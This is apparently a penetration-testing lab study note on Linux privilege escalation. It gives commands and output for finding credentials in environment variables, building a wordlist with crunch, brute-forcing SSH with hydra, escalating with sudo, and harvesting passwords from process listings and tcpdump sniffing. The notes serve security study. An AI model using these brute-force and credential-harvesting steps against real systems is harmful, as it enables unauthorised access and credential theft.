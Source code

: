 ### Inspecting User Trails 
- Environment Variables 
  `env`
  `cat .bashrc`

#### Scenario: Discover credentials stored in env variable

Using knowledge of this password to inform a custom password list and switch to a different user

Using #crunch to generate custom wordlist.

`crunch 6 6 -t Lab%%% > wordlist`

`6`- min and max length 
`-t`- specify pattern as Lab + three digits

Result:

```
Lab000
Lab001
Lab002
Lab003
Lab004
Lab005
Lab006
Lab007
Lab008
Lab009
```

Bruteforce attack with #hydra 

`hydra -l eve -P wordlist  192.168.50.214 -t 4 ssh -V`

`-l`- username
`-P`- wordlist 

Result: success
```
login: eve   password: Lab123
```

SSH with eve's creds

`ssh eve@192.168.50.214`

Verify if we are a privileged user with

`sudo -l`

Result: we are an admin

```
User eve may run the following commands on debian-privesc:
    (ALL : ALL) ALL
```

Run `sudo -i` to elevate to root

### Inspecting Service Footprints 

Harvesting Active Processes for Credentials

`watch -n 1 "ps -aux | grep pass"`

Result:
```hlt:4
...

joe      16867  0.0  0.1   6352  2996 pts/0    S+   05:41   0:00 watch -n 1 ps -aux | grep pass
root     16880  0.0  0.0   2384   756 ?        S    05:41   0:00 sh -c sshpass -p 'Lab123' ssh  -t eve@127.0.0.1 'sleep 5;exit'
root     16881  0.0  0.0   2356  1640 ?        S    05:41   0:00 sshpass -p zzzzzz ssh -t eve@127.0.0.1 sleep 5;exit
...
```

Using tcpdump to Perform Password Sniffing

`sudo tcpdump -i lo -A | grep "pass"`

Result:
```hlt:3
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...{...zuser:root,pass:lab -
...5...5user:root,pass:lab -
```